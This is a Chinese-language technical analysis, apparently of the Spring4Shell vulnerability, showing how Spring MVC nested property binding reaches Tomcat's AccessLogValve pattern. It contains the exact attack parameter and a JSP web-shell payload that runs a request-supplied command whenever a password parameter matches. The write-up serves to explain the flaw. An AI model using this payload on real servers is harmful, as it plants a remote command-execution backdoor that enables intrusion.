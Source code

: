 



#### Tomcat AccessLogValve 和 access_log

Tomcat的Valve用于处理请求和响应，通过组合了多个Valve的Pipeline，来实现按次序对请求和响应进行一系列的处理。其中AccessLogValve用来记录访问日志access_log。Tomcat 的 server.xml中默认配置了AccessLogValve，所有部署在Tomcat中的Web应用均会执行该Valve，内容如下：

```xml
<!-- Tomcat 的 server.xml  -->
<Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs"
               prefix="localhost_access_log" suffix=".txt"
               pattern="%h %l %u %t &quot;%r&quot; %s %b" />
```

下面列出配置中出现的几个重要属性：

· directory：access_log文件输出目录。

· prefix：access_log文件名前缀。

· pattern：access_log文件内容格式。

· suffix：access_log文件名后缀。

· fileDateFormat：access_log文件名日期后缀，默认为.yyyy-MM-dd。





##### pattern参数

参数名：class.module.classLoader.resources.context.parent.pipeline.first.pattern

参数值：

```java
%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i
```

SpringMVC多层嵌套参数绑定最终可以得到如下完整的调用链：

```java
User.getClass()
    java.lang.Class.getModule()
        java.lang.Module.getClassLoader()
            org.apache.catalina.loader.ParallelWebappClassLoader.getResources()
                org.apache.catalina.webresources.StandardRoot.getContext()
                    org.apache.catalina.core.StandardContext.getParent()
                        org.apache.catalina.core.StandardHost.getPipeline()
                            org.apache.catalina.core.StandardPipeline.getFirst()
                                org.apache.catalina.valves.AccessLogValve.setPattern()
```

AccessLogValve的父类AbstractAccessLogValve

AccessLogValve输出的日志中可以通过形如   %{xxx}i   等形式会直接引用HTTP请求和响应中的内容。

![](img\2023-04-18-154854.jpg)
